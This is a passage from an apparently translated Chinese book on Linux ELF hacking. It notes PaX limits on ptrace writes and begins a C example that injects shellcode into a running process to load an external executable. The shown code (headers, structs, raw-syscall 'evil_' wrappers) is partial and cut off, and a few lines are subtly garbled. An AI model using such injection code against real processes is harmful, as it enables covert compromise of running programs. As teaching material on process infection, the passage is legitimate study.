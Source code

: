 在本章前面提到过，使用`PaX`打补丁的 Linux 内核将不允许`ptrace()`写入不可写的段。这是为了进一步执行内存保护限制。在论文《通过 GOT 污染进行 ELF 运行时感染》中，我已经讨论了通过使用`ptrace`操纵`vsyscall`表来绕过这些限制的方法。

现在，让我们看一个代码示例，我们在运行中的进程中注入一个 shellcode，加载一个外部可执行文件：

```
To compile: gcc code_inject.c o code_inject
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>
#define PAGE_ALIGN(x) (x & ~(PAGE_SIZE 1))
#define PAGE_ALIGN_UP(x) (PAGE_ALIGN(x) + PAGE_SIZE)
#define WORD_ALIGN(x) ((x + 7) & ~7)
#define BASE_ADDRESS 0x00100000
typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  pid_t pid;
  uint8_t *shellcode;
  char *exec_path;
  uint64_t base;
  uint64_t stack;
  uint64_t entry;
  struct user_regs_struct pt_reg;
} handle_t;

static inline volatile void *
evil_mmap(void *, uint64_t, uint64_t, uint64_t, int64_t, uint64_t)
__attribute__((aligned(8),__always_inline__));
uint64_t injection_code(void *) __attribute__((aligned(8)));
uint64_t get_text_base(pid_t);
int pid_write(int, void *, const void *, size_t);
uint8_t *create_fn_shellcode(void (*fn)(), size_t len);

void *f1 = injection_code;
void *f2 = get_text_base;

static inline volatile long evil_write(long fd, char *buf, unsigned long len)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov $1, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf), "g"(len));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_fstat(long fd, struct stat *buf)
{
  long ret;
```